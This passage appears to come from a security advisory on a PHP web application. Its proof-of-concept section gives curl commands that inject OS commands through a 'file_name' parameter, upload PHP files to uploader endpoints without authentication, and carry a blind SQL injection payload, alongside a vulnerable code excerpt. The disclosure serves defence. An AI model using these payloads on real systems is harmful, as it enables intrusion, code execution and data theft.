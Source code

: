 ```shell

2. Unauthenticated Arbitrary File Upload
A malicious file can be uploaded into the webserver by an unauthenticated
attacker. It is possible for an attacker to upload a script to issue operating
system commands. This same vulnerability can also be exploited by an
authenticated attacker with normal user privileges.

3. Unauthenticated Blind SQL Injection
The identified SQL injection vulnerabilities enable an attacker to execute
arbitrary SQL commands on the underlying MySQL server.


Proof of concept:
-----------------
1. Unauthenticated OS Command Injection
Without having to authenticate, an attacker can exploit this vulnerability
by manipulating the "file_name" parameter during the file upload in the script
/api/file_uploader.php:

 $ curl -F "Filedata=@pfile.jpg" -F "file_name=aa.php ||<<COMMAND HERE>>"
http://$HOST/api/file_uploader.php


Alternatively, this vulnerability can also be exploited by authenticated basic
privileged users with the following payload by exploiting the same issue in
/actions/file_downloader.php:

$ curl --cookie "[--SNIP--]" --data "file=http://localhost/vid.mp4&file_name=abc
|| <<COMMAND HERE>>" "http://$HOST/actions/file_downloader.php"


2. Unauthenticated Arbitrary File Upload
Below is the cURL request to upload arbitrary files to the webserver with no
authentication required.

$ curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php"
"http://$HOST/actions/beats_uploader.php"

$ curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php"
"http://$HOST/actions/photo_uploader.php"

Furthermore, this vulnerability is also available to authenticated users with
basic privileges:

$ curl --cookie "[--SNIP--]" -F
"coverPhoto=@valid-image-with-appended-phpcode.php"
"http://$HOST/edit_account.php?mode=avatar_bg"


3. Unauthenticated Blind SQL Injection
The following parameters have been identified to be vulnerable against
unauthenticated blind SQL injection.

URL     : http://$HOST/actions/vote_channel.php
METHOD  : POST
PAYLOAD : channelId=channelId=1-BENCHMARK(100000000, rand())

The source code excerpt below shows the vulnerable code
VULN. FILE : /actions/vote_channel.php
VULN. CODE :
[...]
$vote = $_POST["vote"];
$userid = $_POST["channelId"];
```